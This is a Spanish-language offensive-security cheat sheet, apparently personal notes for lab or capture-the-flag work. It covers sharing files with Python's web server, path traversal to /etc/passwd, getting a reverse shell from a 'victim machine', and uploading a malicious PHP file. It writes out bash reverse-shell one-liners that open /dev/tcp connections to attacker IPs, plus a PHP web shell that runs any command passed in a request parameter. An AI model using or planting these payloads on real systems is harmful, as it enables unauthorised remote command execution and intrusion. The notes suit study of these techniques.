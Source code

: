![[Pasted image 20230414125924.png]]

## COMPARTIR ARCHIVOS POR SERVIDOR WEB DE PYTHON

Para ello nos ubicamos dentro del directorio que queramos compartir y ejecutamos lo siguiente:

![[Pasted image 20221217112301.png]]

Ahora si hacemos un localhost o introducimos la IP que nos dicen, aparecerá lo siguiente:

![[Pasted image 20221217112310.png]]

## ACCEDER A ETC/PASSWD CON PATH TRAVERSAL

Para ello iremos a la siguiente ruta:

![[Pasted image 20221217112323.png]]

## CONSEGUIR REVERSE SHELL DE MÁQUINA VÍCTIMA A NUESTRO EQUIPO

Para ello primero pondremos a escuchar con netcat desde nuestro equipo host:
![[Pasted image 20221217112335.png]]
Después, desde la máquina víctima necesitaremos que ejecute el siguiente código para enviarnos una bash:
```bash
bash -i >& /dev/tcp/10.10.16.27/443 0>&1
```
Aunque si lo hacemos desde un navegador, debemos escribirlo de esta manera, porque al poner bash -c seleccionamos el intérprete:
```bash
bash -c 'bash -i >& /dev/tcp/10.8.100.91/443 0>&1'
````
## Código PHP malicioso para ganar Reverse Shell

Esto se utiliza para subir este fichero php a una web que funcione con este lenguaje para después acceder a dicho documento desde algún directorio de uploads de la web; y así ganar ejecución remota de comandos:

```python
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

![[Pasted image 20221218213646.png]]
Luego podemos acceder a este fichero malicioso desde la máquina víctima poniendo lo siguiente en la URL seguido del comando a ejecutar:
![[Pasted image 20230218112346.png]]
